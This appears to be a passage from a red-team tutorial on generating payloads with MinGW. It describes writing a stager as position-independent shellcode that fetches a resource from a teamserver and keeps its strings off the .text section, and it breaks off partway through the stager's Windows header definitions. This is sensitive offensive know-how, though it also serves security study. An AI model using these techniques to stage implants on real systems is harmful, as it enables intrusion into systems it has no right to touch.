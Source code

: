 ![../images/Dynamic_payload_generation_with_mingw/Untitled%201.png](../images/Dynamic_payload_generation_with_mingw/Untitled%201.png)

And then on the server we should see a 404 as well. In the real world this would be a communication with the teamserver.

## The stager

For the stager, we are going to do the same thing as before (fetching a web resource), but it will be written as Position Independent Code (PIC). PIC means that we cannot rely on knowing where any functions are, so we need to resolve them ourselves. We also cannot use any strings since these will not be included in the .text section of our executable, so we will write them as byte arrays to ensure that they are dynamically constructed on the stack.

I will not attempt to offer a complete tutorial on writing PIC, so I would REALLY recommend you read one of the following blog posts: Matt Graeber's ["Writing Optimized Windows Shellcode In C"](https://web.archive.org/web/20201202085848/http://www.exploit-monday.com/2013/08/writing-optimized-windows-shellcode-in-c.html) (Archived) or hasherezade's [From a C project to assembly to shellcode](https://vxug.fakedoma.in/papers/VXUG/Exclusive/FromaCprojectthroughassemblytoshellcodeHasherezade.pdf). Reading and finally understanding these two posts was one of those moments where a lot of very important concepts began to click together for me.

I've placed the source code into a dropdown to avoid making the total page length super long.

- Click here to expand the full stager code

    ```c
    #pragma once
    #include <windows.h>

    #ifndef __NTDLL_H__

    #ifndef TO_LOWERCASE
    #define TO_LOWERCASE(out, c1) (out = (c1 <= 'Z' && c1 >= 'A') ? c1 = (c1 - 'A') + 'a': c1)
    #endif

    typedef struct _UNICODE_STRING
    {
        USHORT Length;
        USHORT MaximumLength;
        PWSTR  Buffer;

    } UNICODE_STRING, * PUNICODE_STRING;

    typedef struct _PEB_LDR_DATA
    {
        ULONG Length;
        BOOLEAN Initialized;
        HANDLE SsHandle;
        LIST_ENTRY InLoadOrderModuleList;
        LIST_ENTRY InMemoryOrderModuleList;
        LIST_ENTRY InInitializationOrderModuleList;
        PVOID      EntryInProgress;
